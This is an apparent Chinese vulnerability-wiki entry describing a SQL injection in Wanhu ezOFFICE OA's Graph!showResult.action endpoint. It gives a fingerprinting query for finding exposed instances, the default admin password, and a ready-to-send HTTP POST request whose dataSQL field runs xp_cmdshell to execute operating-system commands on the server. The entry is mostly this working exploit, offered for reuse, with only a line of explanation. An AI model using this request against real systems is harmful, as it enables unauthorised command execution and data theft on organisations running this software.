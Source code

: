 # 万户OA showResult.action 后台SQL注入漏洞

## 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313175006932.png)

默认账号密码：admin/111111

发送请求包：

```python
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![img](/assets/PeiQi-Wiki/img/1631324055298-7959a3fb-b302-4926-bbfc-72107cbfdb62.png)